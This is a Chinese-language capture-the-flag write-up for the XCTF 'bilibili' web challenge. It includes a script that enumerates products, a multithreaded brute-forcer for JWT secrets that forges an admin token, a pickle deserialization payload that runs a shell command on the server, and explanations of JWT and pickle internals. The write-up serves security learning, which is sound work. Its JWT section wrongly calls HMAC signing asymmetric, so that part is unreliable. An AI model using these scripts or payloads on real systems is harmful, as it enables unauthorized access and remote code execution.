XCTF - bilibili
===

## XCTF 之 bilibili

> 难度：9, 方向：Web

打开主页:



好像无从下手, 尝试了一下目录爆破 + 简单的 SSTI 和 sqli 尝试, 暂时没有突破口, 看一下网页源码:



### 打靶记录

#### 信息收集

看来应该是要在网页的购物篮里找 `lv6` 这个商品..翻了几页没翻到, 二分法找了一下发现一共有 500 页, 4500 个商品, 考虑写个脚本。

先看一下商品页面的网页源码:

```html
<div class="jumbotron commodity-info">
<div class="grids_of_3">
<a href="/info/3">


<h3>blRFJyMUqHVCKgvj</h3>
```

那目标网页应该有 `lv6.png` 的图片:

```python
import requests

for i in range(0,4501):    
    # 遍历网站所有商品
    url = "http://61.147.171.105:55058/info/" + str(i)
    
    response = requests.get(url)
    if response.status_code == 200:
        print("[+][INFO] sent package i = " + str(i))
        if "lv6.png" in response.text:
            print("[+][INFO] found i = " + str(i))
            break

```

执行脚本, 显示是第 1624 个商品, 网站每页有 9 个商品, 因此结果在第 `page=180` 页上:





#### 伪造购买信息

接下来打开拦截, 直接点购买, 审计一下这个包:



可以看到 Cookie 里面有商品信息, 其中 `MTYyNA==` 就是 1624 的 base64 编码, 应该就是商品 id, 后端很可能对商品信息有校验, 因此这里先考虑改折扣参数 (`discount`):

返回 200, 应该是成功了, 看一下页面:



#### JWT 攻击

回显页面显示只有管理员可以访问, 那么多半是要伪造管理员身份了。这里 Cookie 里面基本都是商品信息, 考虑信息在 JWT 中:



把 JWT 扔进去解密: (在线解密的网站: [JWT在线解码](https://www.json.cn/jwt))



果然在 JWT 中, 那么把 username 改为 admin, 考虑如何伪造 JWT;

先试试不用哈希, 将 `alg` 改为 `none`, 也就是不要签名算法, 那么秘钥也不需要, JWT 第三段直接为空。

> 多数网站会禁止签名为 `none` 的 JWT, 这里不成功, 略过;

那么尝试一下弱秘钥爆破, 写个脚本:

```python
import requests  # 用于发送 HTTP 请求
import jwt       # 用于构造 JWT（JSON Web Token）
import itertools # 用于生成组合爆破的字符排列
import string    # 提供字符集（如 ascii_letters、digits 等）
import concurrent.futures  # 用于多线程处理（ThreadPoolExecutor）

# 目标地址（发起 JWT 请求的目标接口）
url = "http://61.147.171.105:55058/b1g_m4mber"

# 要爆破的字符集：包含 a-z、A-Z、0-9 共62个字符
charset = string.ascii_letters + string.digits  # 等价于 string.ascii_lowercase + string.ascii_uppercase + string.digits

# 最大秘钥长度限制
MAX_LEN = 8

# 构造 JWT 的 payload：{'name': 'admin'}
payload = {"name": "admin"}

# 构造请求头信息，模拟浏览器行为
headers = {
    "User-Agent": "Mozilla/5.0",  # 浏览器标识
    "Referer": "http://61.147.171.105:55058/shopcar",  # 来源页面
    "Connection": "close",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.8",
}

# 目标接口所需的固定 Cookie
base_cookies = {
    "_xsrf": "2|575b4d19|5aa23ea6a3fbbdeb9239a623b21d4a3d|1753406110",
    "commodity_id": '2|1:0|10:1753409359|12:commodity_id|4:Mw==|097b624765b25650e501ebb73f2deb3ffa6f0dde9e505c5a7b3e13dbef190a81',
}

# 标志变量
found = False

def try_key(secret_key):
    '''
    函数：try_key
    参数：secret_key (str) - 当前尝试的密钥
    返回：若成功则返回该密钥，否则 None
    '''
    global found
    if found:
        return None  # 如果已找到密钥，则其他线程无需再尝试

    try:
        # jwt.encode(payload, key, algorithm): 构造一个签名的JWT
        token = jwt.encode(payload, secret_key, algorithm="HS256")

        cookies = base_cookies.copy()
        cookies["JWT"] = token  # 把生成的JWT加进 cookie 中

        # 发送请求，尝试该 JWT 是否有效
        response = requests.get(url, headers=headers, cookies=cookies, timeout=3)

        print(f"[*] Trying key: {secret_key} => Status {response.status_code}")

        # 如果返回状态码不为500，则认为该 JWT 被接受
        if response.status_code != 500:
            found = True
            print(f"[+] FOUND KEY: {secret_key}")
            print(f"[+] JWT: {token}")
            return secret_key
    except Exception as e:
        print(f"[-] Error with key {secret_key}: {e}")
    return None

def brute_force_multithreaded():
    '''
        函数：brute_force_multithreaded
        功能：使用多线程线程池对指定字符集内不同长度的可能密钥进行爆破， 一旦找到有效密钥则终止爆破过程。
    '''
    # 创建线程池，最多30个并发线程
    with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
        for length in range(1, MAX_LEN + 1):
            print(f"[*] Brute-forcing keys of length {length}...")

            tasks = []  # 用于收集所有提交的任务
            for key_tuple in itertools.product(charset, repeat=length):
                key = ''.join(key_tuple)
                # executor.submit(func, arg): 向线程池提交一个任务
                tasks.append(executor.submit(try_key, key))

            # 遍历线程执行结果
            for future in concurrent.futures.as_completed(tasks):
                result = future.result()
                if result:
                    # 找到密钥，立刻关闭线程池并取消未完成任务
                    executor.shutdown(cancel_futures=True)
                    return

    print("[-] No weak key found.")

# 主函数入口
if __name__ == "__main__":
    brute_force_multithreaded()

```

最后试出秘钥 key 为 `1Kun`, 生成 JWT, 然后改包:





成功访问。

#### 代码审计

点一下 "成为大会员", 没反应, 抓包可以看见 POST 提交了一个 `become` 参数。

打开源代码, 此处有个 `www.zip`, 应该是网站源码, 下载;



审计一下 `admin.py`, 发现此处极可能有反序列化漏洞:



这里对用户传递的 `become` 参数直接做了反序列化。直接对用户的输入 (不可控) 做反序列化是非常危险的。

#### python 反序列化

由于序列化是向前兼容的, 并且 p=0 的序列化字符串可读性最强, 这里写成 0 号协议, 编写脚本:

```python
# -*- coding: utf-8 -*-
"""
在本地 Python 3.x 环境下生成可在 Python 2.7 目标环境中反序列化执行的 pickle payload。

关键点：
- 用 subprocess.getoutput 作为执行函数，Python 2.7 及以上均支持。
- pickle 协议指定为 0，以确保兼容 Python 2.x, 且可读性最好。
- URL 编码采用 urllib.parse.quote_from_bytes。
"""
import pickle
import subprocess
from urllib.parse import quote_from_bytes

class Payload(object):
    def __reduce__(self):
        # 使用 subprocess.getoutput 执行系统命令，Python2.7 和 Python3.x 均支持
        return (subprocess.getoutput, ('cat /flag.txt',))


def main():
    # 使用协议 0 序列化，保证反序列化时兼容 Python2
    serialized = pickle.dumps(Payload(), protocol=0)
    # quote_from_bytes 接受 bytes，生成 URL-safe str
    encoded = quote_from_bytes(serialized)
    print(encoded)

if __name__ == '__main__':
    main()
```

改包发出, 发现 flag 就在当前目录:



把指令再改改, 成功:



### 渗透原理

#### JWT 攻击

JWT 的原理: 

包含三段信息: `Header`.`Payload`,`Signature`。这三者都是经过 Base64 编码的 json 文件。其中: 

> `Header` 包含了文件类型(JWT), 哈希方法 (例如 SHA-256);

> `Payload` 为用户层面需要传递的数据, (例如用户名, ID, 口令等), 服务器前端只需要对这段信息进行 Base64 解码就可以知道其中的信息;

> `Signature` 为**水印**, 要求得这部分, 首先由 Base64 之后的 `Header` + `Payload` + 用户私钥求和, 再将结果用 `Header` 中指定的哈希算法进行处理。

JWT 的安全性是由水印算法保证的, 也就是**密码学层面**的安全。这是一种**数字签名**算法, 本质上是**非对称加密**, 用户用服务器签发的**私钥**签名, 而服务器只需要用用户公开的**公钥**即可验签。典型的算法为 RSA, 这种加密算法在之前的笔记: [Crypto 1 - RSA](https://r4x.top/2025/05/21/crypto1/) 中已经提到过。

> Token, Session, Cookie 的关系: [Pikachu 1](https://r4x.top/2025/07/01/pikachu1/)

#### Python 反序列化

> 参考博客: [知乎:原理解析反序列化](https://zhuanlan.zhihu.com/p/89132768)

从 php 出发来对比一下 python 的反序列化, 本质上都是系统保留方法(函数)的恶意利用, php 里叫魔法函数, python 里叫魔术方法:

|特性|PHP|Python (pickle)|
|----|----|----|
|序列化函数|`serialize()` `unserialize()`|`pickle.dumps()` `pickle.loads()` `pickle.load()`|
|设计目标|重建对象属性|重建对象属性 + 执行代码 **(更加危险)**|
|安全本质|属性注入 + 魔术方法触发|**直接代码执行**|
|最大风险|魔术方法中的危险逻辑| `__reduce__` 的任意命令执行|
|序列化结构|特定 json 格式字符串||

需要指出的是, 禁用 `__reduce__` (在序列化结果中直接禁用 R ) 并不能解决所有问题, 还有其他绕过方式;

更进一步观察 Python 序列化后的字符串, 例如:

```
\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00\x8c\x05Hello\x94.
```

参数说明:

|指令 (HEX)|操作码|含义|等效汇编指令|
|----|----|----|----|
|`\x80`|PROTO|协议版本: 4|MOV PROTO, 4|
|`\x04`|(参数)|||
|`\x95`|FRAME|数据帧头|PUSH FRAME|
|`\x0b`|...|(帧长度)||		
|`\x8c`|SHORT_BINUNICODE|压入短字符串|PUSH "Hello"|
|`\x05`|Hello|(字符串内容)||	
|`\x94`|MEMOIZE|缓存当前栈顶|CACHE TOP|
|`\x2e`|STOP|停止执行|HALT|

可以看到这个结构是非常接近逆向中的反汇编的, 并且协议版本越高, 越高二进制化, 可读性越差, 好在 pickle 是向前兼容的, 可以指定协议版本为 0。

了解这一点之后, 只要在序列化的结果中加入一个含有恶意指令的 `__reduce__` 方法即可。